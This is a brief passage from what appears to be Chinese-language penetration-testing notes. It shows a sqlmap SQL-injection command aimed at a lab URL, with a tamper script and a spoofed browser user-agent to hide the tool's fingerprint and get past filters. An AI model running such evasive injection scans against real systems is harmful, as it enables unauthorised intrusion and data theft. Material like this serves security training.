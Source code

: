 ![image-20240415112902202](../图片/image-20240415112902202.png)



###### 打乱默认指纹

自定义请求头：--user-agent “”

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"  --proxy="http://127.0.0.1:8080"
```

![image-20240415113228530](../图片/image-20240415113228530.png)
